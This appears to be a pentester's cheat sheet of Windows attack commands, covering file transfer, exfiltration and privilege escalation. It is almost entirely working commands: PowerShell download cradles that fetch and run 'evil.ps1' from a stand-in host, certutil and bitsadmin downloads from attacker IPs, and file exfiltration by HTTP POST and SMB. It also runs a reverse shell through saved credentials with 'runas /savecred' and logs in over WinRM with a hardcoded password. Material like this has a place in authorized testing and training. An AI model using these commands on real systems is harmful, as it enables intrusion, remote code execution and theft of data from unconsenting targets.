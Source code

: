 [More file transfer techniques](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/file-transfer-techniques)

```powershell
# Download Cradles
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1')

iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe

powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.31.141/ignite.txt', 'ignite.txt')

certutil -urlcache -split -f http://192.168.31.141/ignite.txt ignite.txt # -split for splitting large files
bitsadmin /transfer job http://192.168.31.141/ignite.txt C:\Users\Public\ignite.txt

copy \\192.168.31.141\share\ignite.txt .  # for smb data download

```
#### (Upload) - Exfiltration
```powershell
$uri = "https://www.example.com/submit"
$body = "param1=value1&param2=value2" # URL-encoded form data

Invoke-WebRequest -Uri $uri -Method Post -Body $body -ContentType "application/x-www-form-urlencoded"


$filePath = "C:\path\to\your\file.txt"
Invoke-WebRequest -Uri $uri -Method POST -InFile $filePath -ContentType "application/octet-stream"

wget -Method POST -Uri http://192.168.45.x/file.exe  -InFile "./file.exe" 

curl.exe -X POST -F "file=@C:\path\to\your\file.txt" http://your-server.com/upload


net use Z: \\<SMB_SERVER_IP>\sharename
net use Z: \\<SMB_SERVER_IP>\sharename /user:USERNAME PASSWORD
copy C:\path\to\your\file.txt Z:\

# encode and copy paste
certutil -encode input.txt output.b64
```

### ⬆ PrivEsc Vectors
#### Access After Creds
```powershell
# escalation through saved creds
cmdkey /list
runas /savecred /user:admin reverse_shell.exe


# Use runas to get access as new user if we have already GUI access to machine and new user not in RDP or WinRM
runas /user:backupadmin cmd

# winrm login through powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
# Recommended to connect that user from attacking machine using evil-winrm

```